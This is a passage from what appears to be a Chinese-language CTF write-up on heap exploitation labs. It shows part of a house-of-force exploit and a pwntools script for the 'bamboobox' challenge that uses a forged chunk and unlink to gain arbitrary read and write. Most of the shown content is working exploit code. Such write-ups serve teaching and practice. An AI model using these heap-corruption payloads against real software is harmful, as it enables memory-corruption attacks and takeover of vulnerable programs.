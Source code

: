 ```python
modify(0,0x110,"a"*0x100 + p64(0) + p64(0xffffffffffffffff))
additem(-(0x10+0x10)-(0x10+0x100)-(0x10),"dada")#evil_size
additem(0x20,p64(magic)*2)#change ptr here!!
r.sendline('5')
r.interactive()
```


## lab11-2

这题考察unlink的用法。

unlink的具体原理这边就不说了。

主要是通过unlink把chunk0改到chunklist的附近（原指向chunk0的指针现在指向了chunklist附近），从而向chunk0写内容能把chunk1改到任意的位置，print chunk1就变成了任意地址读，write chunk1就变成了任意地址写。

**exp_cat_flag_using_magic**:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['terminator','-x','bash','-c']
cn = process('./bamboobox')
bin = ELF('./bamboobox')

itemlist = 0x00000000006020C0
p_chunk0 = itemlist+8

def add_item(length,name):
	cn.sendline('2')
	cn.recvuntil('the length of item name:')
	cn.sendline(str(length))
	cn.recvuntil('the name of item:')
	cn.sendline(name)

def change_item(index,length,name):
	cn.sendline('3')
	cn.recvuntil('the index of item:')
	cn.sendline(str(index))
	cn.recvuntil('the length of item name:')
	cn.sendline(str(length))
	cn.recvuntil('new name of the item:')
	cn.sendline(name)

def remove_item(index):
	cn.sendline('4')
	cn.recvuntil('the index of item:')
	cn.sendline(str(index))

def show_item():
	cn.sendline('1')
	data = cn.recvuntil('-')
	return data

add_item(256,'aaaaaaaa')#chunk0
add_item(256,'bbbbbbbb')#chunk1
add_item(256,'cccccccc')#chunk2

pay = p64(0)+p64(256+1)+p64(p_chunk0-0x18)+p64(p_chunk0-0x10)
pay += 'A'*(256-4*8)
pay += p64(256)+p64(256+0x10) + 'test'

change_item(0,len(pay),pay)
```